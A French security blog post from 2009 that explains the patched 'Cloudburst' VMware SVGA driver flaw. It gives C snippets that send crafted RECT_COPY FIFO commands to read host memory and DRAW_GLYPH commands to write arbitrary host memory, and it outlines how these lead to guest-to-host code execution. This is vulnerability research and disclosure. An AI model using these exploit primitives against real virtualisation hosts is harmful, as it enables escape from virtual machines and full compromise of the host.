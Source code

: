 ```yaml
---
layout: post
title:  "VMWare Cloudburst suite"
date:   2009-09-14 19:48:00 +0100
categories: [security]
---
```

Un bref rappel:  
Les failles que je décris se situent dans le driver SVGA de VMWare ([patché depuis plusieurs mois](http://lists.vmware.com/pipermail/security-announce/2009/000055.html)). Nous pouvons interagir avec ce driver en écrivant des commandes dans la mémoire FIFO. (Si vous n’avez pas suivi allez voir le post précédent).

En fonction du fichier de configuration de votre VM et de la version de VMWare vous aurez accès ou non à certaines commandes. Je ne traiterai pas toutes les commandes. Pour jouer avec les requêtes 3D il vous faut ajouter à votre fichier de configuration: `mks.enable3d = “TRUE”`  
Les requêtes 3D ne sont pas documentées et la mémoire FIFO est utilisée comme couche de transport pour l’architecture SVGA3D utilisé par D3D. Je ne m'y suis pas frotté. On fera juste le tour des commandes `RECT_COPY` et `DRAW_GLYPH`, qui appartiennent aux requêtes 2D.

__I] Lecture mémoire relative.__

Pour pouvoir lire la mémoire de l'host on peut utiliser la commande `RECT_COPY`:
{% highlight c %}
#define SVGA_CMD_RECT_COPY  0x3
/* FIFO layout: Source X, Source Y, Dest X, Dest Y, Width, Height */

vmwareWriteWordToFIFO((PDWORD)VgaFifo, SVGA_CMD_RECT_COPY); // SURF_COPY
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x80000000-offset); // Source X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Source Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, offset); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x1); // Height
{% endhighlight %}

`Source X` prend comme paramètre des coordonnées en pixel. C’est-à-dire que si `SourceX` vaut 1 la copie s'effectuera avec un décalage de 4 bytes par rapport au début du frame buffer. Avec `0×80000000-offset`, on obtient donc un offset négatif. Pour que la commande `RECT_COPY` soit exécutée, il faut que deux conditions soit remplies: `SourceX>0` et `SourceX+Width<0` sachant que `SourceX+Width` est stockée dans une variable non signée. Dans notre code on aura `SourceX+Width = 0×80000000-offset+offset = -2147483647`. Pour dumper la mémoire après le frame buffer, il suffit de jouer avec les deux paramètres vu précédemment.
{% highlight c %}
vmwareWriteWordToFIFO((PDWORD)VgaFifo, SVGA_CMD_RECT_COPY); // SURF_COPY
vmwareWriteWordToFIFO((PDWORD)VgaFifo, offset); // Source X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Source Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x80000000-offset); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x1); // Height
{% endhighlight %}

__II] Lecture mémoire absolue.__

Le problème de `RECT_COPY` c'est que la lecture mémoire est relative. Si l'on essaye de copier une page mémoire de vmware-vmx qui n'existe pas, on crash le programme. Donc pour fiabiliser l'exploitation du bug il faut trouver où se situe le frame buffer du côté host. Sous un host vista, la page précédant le frame buffer contient l'adresse que nous recherchons. Sous xp c’est plus ardu, on peut retrouver l'adresse avec une commande 3D ou se risquer à utiliser la même méthode que pour un host vista. Mais il y a des risques de violation d'accès mémoire. Chez moi, la plupart de ces techniques fonctionnent (`VMWare player Build: 118166`) mais sur d'autres configurations cela est impossible.
{% highlight c %}
// Exemple pour vista
vmwareWriteWordToFIFO((PDWORD)VgaFifo, SVGA_CMD_RECT_COPY); // SURF_COPY
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x80000000 - 0x4); // Source X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Source Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x4); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, 0x1); // Height
FBStartOnHost = VMWARE.FrameBuffer[2];

if(dest < FBStartOnHost) { // dest représente une adresse précise
  offset = (FBStartOnHost-dest)/4;
} else {
  offset = (dest-FBStartOnHost)/4;
}
{% endhighlight %}

Maintenant que l'on a retrouvé l'adresse du frame buffer, on peut lire précisément la mémoire de l'host. On peut donc par exemple récupérer le `PeHeader` de vmware-vmx (se situant toujours en 0×400000) pour avoir la version de VMWare et une vue précise des sections principales de l’exécutable code/data etc.

__III] Écriture en mémoire.__

On peut utiliser la commande `RECT_COPY` pour écraser la mémoire de l'host. Mais cette commande est mieux filtrée au niveau de la destination car dépendante des valeurs de `SVGA_REG_WIDTH` et `SVGA_REG_HEIGHT`. Donc on ne peut écraser seulement quelques Ko précédant le frame buffer. Sur ma version de VMWare, la zone mémoire modifiable correspond au `heap`. J’ai pensé récupérer le `TEB` se situant en `0x7FFDF000` pour ensuite exploiter un `heap overflow`. Mais à cette adresse, j'ai des valeurs ne correspondant pas à une structure de type `TEB`. Et un heap overflow n'est pas forcément une exploitation fiable surtout quand il est dépendant de deux valeurs qu'on ne peut ajuster comme on le désire.

J'ai dû me tourner vers la commande `DRAW_GLYPH` pour vérifier si elle est disponible:
{% highlight c %}
WRITE_PORT_ULONG((PULONG)(IOports+SVGA_INDEX_PORT), SVGA_REG_CAPABILITIES);
if(READ_PORT_ULONG((PULONG)(IOports+SVGA_VALUE_PORT)) & SVGA_CAP_GLYPH) DbgPrint("Glyph enable\");
{% endhighlight %}

Si ce n'est pas le cas il faut rajouter `svga.yesGlyphs=”TRUE”` dans votre fichier de configuration. Cette commande n'est absolument pas filtrée au niveau de la destination en X/Y, permettant ainsi d'écrire en mémoire où l'on veut. La taille minimale d'un glyph est de 32 pixels et il va écrire un seul pixel à l'offset `0×6` par rapport à `Destination X`. Il faut donc faire attention aux violations d'accès quand on écrit au bord d’une plage mémoire. Un petit exemple:
{% highlight c %}
// On va écrire 0xD34DB33F dans le premier DWORD du frame buffer.
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, SVGA_CMD_DRAW_GLYPH);
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x3FFFFFF9); // Dest X
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x0); // Dest Y
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x20); // Width
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0x1); // Height
vmwareWriteWordToFIFO((PDWORD)VgaFifo, IOports, 0xD34DB33F); // Valeur
{% endhighlight %}

On peut donc lire/écrire en mémoire de façon fiable. En résumé, le plus dur est de retrouver l'adresse du frame buffer sans crasher vmware-vmx. Il est ensuite possible d’outrepasser des protections telles que l'`ASLR` ou le `DEP` et créer un canal de communication dans une zone mémoire partagée entre le guest et l'host (le framme buffer par exemple) et exécuter du code. VMWare tournant en Administrateur/root et possédant le token `SeLoadDriverPrivilege` sous windows, au niveau de l'execution de code on peut tout faire!
